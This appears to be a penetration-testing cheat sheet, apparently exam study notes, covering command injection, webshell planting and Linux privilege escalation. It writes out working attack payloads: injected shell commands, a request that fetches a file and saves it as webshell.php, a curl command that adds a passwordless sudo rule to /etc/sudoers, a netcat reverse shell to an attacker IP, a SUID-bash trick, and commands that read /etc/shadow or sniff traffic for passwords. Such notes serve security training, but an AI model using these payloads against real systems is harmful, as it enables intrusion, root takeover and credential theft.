 ```bash
git;ipconfig
```

Use URL encoding for special characters. For Linux, use **`;`** or **`&&`**, and for Windows, use **`&`**.

### **Determine Webshell Type (PowerShell or CMD)**

```bash
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

If parameters are passed in the body, try encoding them. For example, for Linux:

```bash
param=";ls" (as URL encoded)
```

Always check the "forgot email password" page for anything suspicious in the response.

### **CMD.php in Website for Executing Commands in POST Data**

```bash
ip=127.0.0.1%0awget IP%0amv index.html webshell.php%0a&send=Ping+It%21
```

```bash
curl http://127.0.0.1:8080/start_page.php?page=cmd.php --data "cmd=echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers"
```

```bash
echo+'os.execute("nc+-e+/bin/sh+192.168.XX.XX+445")'+>+/var/tmp/shell.nse+&&+sud
```

## **Linux Privilege Escalation**

1. Check **`.bash_history`** for historical commands.
2. Inspect environment variables with **`env`**.
3. Review **`.bashrc`** for any modifications.
4. Identify the current user with **`whoami`**.
5. Get user and group information with **`id`**.
6. Check sudo permissions with **`sudo -l`** (look for potential GTFO Bins).
    - If no suitable sudo files are found, try creating one in the same path, e.g., **`derpy.sh`** with content **`chmod +s /bin/bash`**, and then run **`sudo ./derpy.sh && /bin/bash -p`**.
7. Identify how a file is getting called: **`grep -r "/home/oscp/ip" /etc/`**.
8. Examine **`/etc/group`** and **`getent group "groupname"`**.
9. View **`/etc/passwd`** for user information.
10. Check **`/etc/shadow`** for user password information.
11. Display routing information with **`route`** and **`routel`**.
12. Inspect firewall rules with **`cat /etc/iptables/rules.v4`**.

### **Process Enumeration**

- Watch processes using **`watch -n 1 "ps -aux | grep pass"`**.
- Monitor network traffic with **`sudo tcpdump -i lo -A | grep "pass"`**.
- Find processes with a specific command using **`ps -u -C passwd`**.
